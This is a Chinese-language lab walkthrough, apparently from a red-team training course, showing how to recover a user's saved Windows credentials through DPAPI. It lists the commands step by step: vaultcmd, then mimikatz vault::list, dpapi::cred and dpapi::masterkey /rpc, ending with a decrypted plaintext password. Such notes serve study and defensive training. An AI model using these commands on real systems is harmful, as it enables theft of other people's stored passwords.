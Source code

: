 Data Protection API (DPAPI)是windows里的一个组件，专门用于存储RDP或者第三方软件如谷歌chrome里的数据


在wkstn-1上操作,以bfarmer的身份操作。这个实验如果以ntlmb身份操作不能复现

查看
```
ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092436532.png)


执行命令,列出本机所有Windows Credentials
```
run vaultcmd /listcreds:"Windows Credentials" /all
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092477880.png)

上面的等价操作,同样显示有dev/bfarmer的Windows Credentials

```
mimikatz vault::list
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092522448.png)


要解密登录凭据，需要找到```guidMasterKey```

根据上面的信息，执行命令

```
mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092550915.png)


留意这里的masterkey是：```a23a1631-e2ca-4805-9f2f-fe8966fd8698```


主密钥信息存储在用户的```AppData\Roaming\Microsoft\Protect```目录中

执行命令,```S-1-5-21-3263068140-2042698922-2891547269-1120```是用户的SID

```
ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092586556.png)

留意这个文件名：``` a23a1631-e2ca-4805-9f2f-fe8966fd8698```，与我们上面得到的masterkey一致

运行```mimikatz dpapi::masterkey```，指定Master Key信息的路径，并指定操作```/rpc```

```
mimikatz dpapi::masterkey /in:C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092620590.png)

上面结果留意这个key值，就是解密的秘钥

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092690159.png)


根据秘钥执行解密

```
mimikatz dpapi::cred /in:C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092737039.png)


上面结果得到明文密码

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660092778146.png)
